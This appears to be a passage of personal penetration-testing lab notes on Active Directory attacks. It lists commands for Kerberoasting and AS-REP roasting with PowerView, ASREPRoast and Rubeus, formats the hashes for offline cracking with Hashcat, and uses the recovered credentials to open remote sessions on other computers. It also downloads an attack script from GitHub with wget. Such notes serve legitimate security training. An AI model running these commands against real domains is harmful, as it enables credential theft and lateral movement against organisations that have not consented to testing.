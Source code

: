 ```
invoke-kerberoast -OutputFormat HashCat > hash.txt
```

Open and copy the value.  In notepad++ press CTRL+J to join all the lines together. CRTL+H > enable Regular express. Replace the spaces in the document with:

Find what: \s*  
Replace with:

[[Hashcat#Kerberos TGS-REP]]

```
Import-Module .\PowerView.ps1
```


```
Get-DomainUser -SamAccountName $TAGET_USER
```

```
Get-DomainComputer
```

Looking at the CN values for hostnames.  Now with the $TARGET_USER creds, we can access other computers.  AD? DC?

#### 89 Targeted Kerberoasting AS REPs

```
. .\PowerView.ps1
```

```
Get-DomainUser -PreauthNotRequired -Verbose
```

$TARGET_USER == user on list.

```
wget https://raw.githubusercontent.com/HarmJ0y/ASREPRoast/master/ASREPRoast.ps1
```

```
. .\ASREPRoast.ps1
```

```
Invoke-ASREPRoast -Verbose
```

Can be done with Rubeus as well:
```
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes
```

[[Hashcat#Kerberos AS-REP]]

```
Enter-PSSession -ComputerName $NETBIOS_COMPUTER_NAME -credential $NETBIOS_DOMAIN_NAME\$USER
```

#### 90 Targeted Kerberoasting AS REPs SET
